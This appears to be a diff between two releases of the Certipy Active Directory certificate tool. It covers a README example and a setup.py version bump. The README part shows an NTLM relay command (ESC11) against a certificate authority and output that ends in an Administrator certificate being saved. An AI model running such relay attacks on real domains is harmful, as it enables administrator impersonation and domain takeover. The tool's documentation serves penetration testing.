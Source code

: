  ```bash
-$ ntlmrelayx.py -t rpc://ca.corp.local -rpc-mode ICPR -icpr-ca-name corp-DC-CA -smb2support
+$ certipy relay -target 'rpc://ca.corp.local' -ca 'corp-ca'
+Certipy v4.7.0 - by Oliver Lyak (ly4k)
+
+[*] Targeting rpc://ca.corp.local (ESC11)
+[*] Listening on 0.0.0.0:445
+[*] Connecting to ncacn_ip_tcp:ca.corp.local[135] to determine ICPR stringbinding
+[*] Attacking user 'Administrator@CORP'
+[*] Template was not defined. Defaulting to Machine/User
+[*] Requesting certificate for user 'Administrator' with template 'User'
+[*] Requesting certificate via RPC
+[*] Successfully requested certificate
+[*] Request ID is 1
+[*] Got certificate with UPN 'Administrator@corp.local'
+[*] Certificate object SID is 'S-1-5-21-980154951-4172460254-2779440654-500'
+[*] Saved certificate and private key to 'administrator.pfx'
+[*] Exiting...
 ```
 
 ## Contact
 
 Please submit any bugs, issues, questions, or feature requests under "Issues" or send them to me on Twitter [@ly4k_](https://twitter.com/ly4k_).
 
 ## Credits
```

### Comparing `certipy-ad-4.6.0/certipy_ad.egg-info/SOURCES.txt` & `certipy-ad-4.7.0/certipy_ad.egg-info/SOURCES.txt`

 * *Files identical despite different names*

### Comparing `certipy-ad-4.6.0/setup.py` & `certipy-ad-4.7.0/setup.py`

 * *Files 1% similar despite different names*

```diff
@@ -1,15 +1,15 @@
 from setuptools import setup
 
 with open("README.md") as f:
     readme = f.read()
 
 setup(
     name="certipy-ad",
-    version="4.6.0",
+    version="4.7.0",
     license="MIT",
     author="ly4k",
     url="https://github.com/ly4k/Certipy",
     long_description=readme,
     long_description_content_type="text/markdown",
     install_requires=[
         "asn1crypto",
```

